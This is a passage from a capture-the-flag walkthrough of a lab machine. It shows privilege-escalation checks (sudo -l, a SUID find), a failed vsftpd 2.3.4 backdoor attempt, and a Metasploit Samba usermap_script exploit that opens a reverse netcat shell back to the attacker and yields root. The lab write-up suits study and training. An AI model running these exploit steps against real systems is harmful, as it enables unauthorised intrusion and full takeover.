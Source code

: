 ```
drwxr-xr-x 3 1001 1001 4096 May  7  2010 .
drwxr-xr-x 6 root root 4096 Mar 14  2017 ..
-rw------- 1 1001 1001  165 May  7  2010 .bash_history
-rw-r--r-- 1 1001 1001  220 Mar 31  2010 .bash_logout
-rw-r--r-- 1 1001 1001 2928 Mar 31  2010 .bashrc
-rw-r--r-- 1 1001 1001  586 Mar 31  2010 .profile
drwx------ 2 1001 1001 4096 May  7  2010 .ssh
```

The next thing that we can look for would be to see if we can run any command as `sudo` or any other user. For this we can use the command `sudo -l` but the thing is we need to know the password of the `daemon` account to get the output which we don't know. 

We can also take a look at files that have their SUID bit set by running the command `find / -perm /2000 2> /dev/null` but here as well we can't find anything useful.

Maybe at this point we should take a step back because we have access as a service account and not as a user account (and most not many access rights are provided to service accounts). So, we can take a look back at the services that we found from the `nmap` scan. 

We saw that `vsftpd 2.3.4` was open on port 24 and we can find the CVE-2011-2523 exploit for that online. Some of the exploits that we can try are:
1. https://github.com/padsalatushal/CVE-2011-2523
2. https://github.com/nobodyatall648/CVE-2011-2523
3. https://www.exploit-db.com/exploits/49757

But none of these work, probably they patched this vulnerability on this box. So, its better to keep moving on and check another service.

The next service that we can see is the `Samba-3.0.20` running on port 445. Again, from a quick google search we can see that there is a [usermap](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) vulnerability associated with this version through which you can get direct `root` access. 

```
msf6 > search usermap

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LhOST 10.10.16.4
LhOST => 10.10.16.4
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Command shell session 1 opened (10.10.16.4:4444 -> 10.10.10.3:46663 ) at 2022-08-16 23:32:17 -0400

whoami
root
cd /root
ls  	
Desktop
```